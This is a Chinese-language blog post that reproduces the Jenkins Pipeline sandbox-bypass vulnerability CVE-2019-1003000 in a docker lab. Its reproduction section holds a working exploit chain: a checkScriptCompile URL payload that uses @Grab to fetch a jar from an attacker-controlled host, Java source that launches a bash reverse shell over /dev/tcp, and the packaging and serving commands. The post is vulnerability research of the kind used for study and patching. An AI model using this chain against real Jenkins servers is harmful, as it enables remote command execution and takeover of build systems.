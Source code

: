 ```yaml
---
layout:     post
title:      【漏洞复现】Jenkins-反序列化漏洞复现及分析（CVE-2019-1003000）
subtitle:   反序列化漏洞
date:       2020-10-16
author:     matrix
header-img: img/websecurity.jpeg
catalog: true
tags:
    - 漏洞复现 
---
```


## 0x00 Jenkins
2019年1月8号，Jenkins官方发布了安全公告，披露了关于Script Security和Pipeline插件的sandbox bypass漏洞，漏洞CVE编号为：CVE-2019-1003000。该漏洞允许“Overall/Read”权限的用户，能够控制SCM中的Jenkinsfile或sandboxed Pipeline共享库内容的用户可绕过沙盒保护，并在Jenkins主服务器上执行任意命令。

Jenkins是一个开源的、提供友好操作界面的持续集成(CI)工具，起源于Hudson（Hudson是商用的），主要用于持续、自动的构建/测试软件项目、监控外部任务的运行（这个比较抽象，暂且写上，不做解释）。Jenkins用Java语言编写，可在Tomcat等流行的servlet容器中运行，也可独立运行。通常与版本管理工具(SCM)、构建工具结合使用。常用的版本控制工具有SVN、GIT，构建工具有Maven、Ant、Gradle。
## 0x01 CI与CD
CI(Continuous integration，中文意思是持续集成)是一种软件开发时间。持续集成强调开发人员提交了新代码之后，立刻进行构建、（单元）测试。根据测试结果，我们可以确定新代码和原有代码能否正确地集成在一起。借用网络图片对CI加以理解。
![-c](/img/16027820484943.jpg)

CD(Continuous Delivery， 中文意思持续交付)是在持续集成的基础上，将集成后的代码部署到更贴近真实运行环境(类生产环境)中。比如，我们完成单元测试后，可以把代码部署到连接数据库的Staging环境中更多的测试。如果代码没有问题，可以继续手动部署到生产环境。下图反应的是CI/CD 的大概工作模式。
![-c](/img/16027820605126.jpg)

Jenkins有一个在Groovy中实现的Pipeline功能。用户发出未经身份验证的GET请求以提供Groovy元编程输入。在此输入中，攻击者可以使用@Grab注释来调用Grape，这是Groovy的内置JAR依赖关系管理工具，并让它下载jar并运行它。

## 0x02 受影响版本
Pipeline: Declarative Plugin up to and including 1.3.4
Pipeline: Groovy Plugin up to and including 2.61
Script Security Plugin up to and including 1.49
## 0x03 漏洞复现
漏洞环境：```docker pull her0ma/CVE-2019-1003000```

Jenkins中没有身份验证，通过以下目录可以访问管理员页面：
```http://192.168.111.130:8080/securityRealm/user/admin```
![-c877](/img/16027820758619.jpg)
访问工作流插件的checkScriptCompile API，payload如下：
```
http://host:ip/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.workflow.cps.CpsFlowDefinition/checkScriptCompile?value=@GrabConfig(disableChecksums=true)
@GrabConfig(disableChecksums=true)
@GrabResolver(name='orange.tw', root='http://yourhost/')
@Grab(group='tw.orange', module='0xdf', version='223')
import Orange;
```
value参数的值为：
```
@GrabConfig(disableChecksums=true)
@GrabResolver(name='orange.tw', root='http://yourhost/')
@Grab(group='tw.orange', module='0xdf', version='223')
import Orange;
```
在服务器上创建Java类供payload远程调用
Orange.java文件内容如下：
```java
public class Orange {
 public Orange() {
    try {
      String payload = "bash -i >& /dev/tcp/ip/port 0>&1";
      String[] cmds = { "/bin/bash", "-c", payload };
      java.lang.Runtime.getRuntime().exec(cmds);
    } catch (Exception e) {
    }
  }
}
```
将其编译成Orange.class，并打成jar包移到相应目录中。
```
mkdir -p META-INF/services/
echo Orange > META-INF/services/org.codehaus.groovy.plugins.Runners
jar cvf 0xdf-223.jar Orange.class META-INF
mkdir -p tw/orange/0xdf/223/
mv 0xdf-223.jar tw/orange/0xdf/223/
```
在服务器开启web服务
```
python -m SimpleHTTPServer 8098
```
![-c783](/img/16027820931638.jpg)
![-c243](/img/16027821075459.jpg)

成功反弹shell!


